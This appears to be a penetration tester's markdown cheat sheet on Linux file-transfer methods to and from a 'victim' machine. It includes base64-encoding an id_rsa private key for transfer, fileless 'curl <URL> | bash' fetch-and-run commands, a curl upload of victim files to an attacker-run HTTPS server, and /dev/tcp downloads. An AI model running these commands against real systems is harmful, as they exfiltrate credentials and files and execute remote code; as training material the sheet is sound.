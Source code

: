 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
## Base64 Encode / Decode
Make sure to check the hash on both sides
```bash
# 1. Get the hash
md5sum id_rsa

# 2. Encode it (-w 0; echo, means its one line and easier to copy)
cat id_rsa | base64 -w 0; echo

# 3. [On victim] Decode it
echo -n '<paste>' | base64 -d > id_rsa

# 4. [On victim] Check hash
md5sum id_rsa
```

## Web Downloads
```bash
wget '<URL>' -O '<OutFile location>'

curl -o '<OutFile location>' '<URL>'
```

### Fileless Download
```bash
wget -qO- '<URL>' | python3

curl '<URL>' | bash
```

## Web Uploads
### Python uploadserver pkg
```bash
# 1. Install uploadserver python package
sudo python3 -m pip install --user uploadserver

# 2. [For HTTPS] Create server self-signed cert 
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# 3. Start the server
mkdir https && cd https
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

# 4. [On Victim] Upload files to our server (can have multiple -F's for multi-file)
curl -X POST https://<ip>/upload -F 'files=@/<file path>' --insecure
```
### Other webservers
We can stand up a simple webserver on the victim machine and then download (`curl` / `wget`) the files onto our machine:
```bash
# Python3
python3 -m http.server

# Python2.7
python2.7 -m SimpleHTTPServer

# PHP
php -S 0.0.0.0:8000

# Ruby
ruby -run -ehttpd . -p8000
```

## Download with Bash (/dev/tcp)
Sometimes traditional methods don't work, if bash is v2.04+ & compiled with `--enable-net-redirects`, we can use the built-in `/dev/TCP` device file to download files.
```bash
# 1. Connect to the target webserver
exec 3<>/dev/tcp/<ip>/<port>

# 2. Get Request
echo -e "GET /<path> HTTP/1.1\n\n">&3

# 3. Print Response
cat <&3
```

## SSH Downloads
We can use `scp` to copy from one machine to another using SSH. We might need to setup an SSH server on our local machine:
```bash
sudo systemctl enable ssh
sudo systemctl start ssh

# Check for listening port (22)
netstat -lnpt | grep ":22"

# Use SCP
scp '<user>@<ip>:<file path>' '<local file path>'
```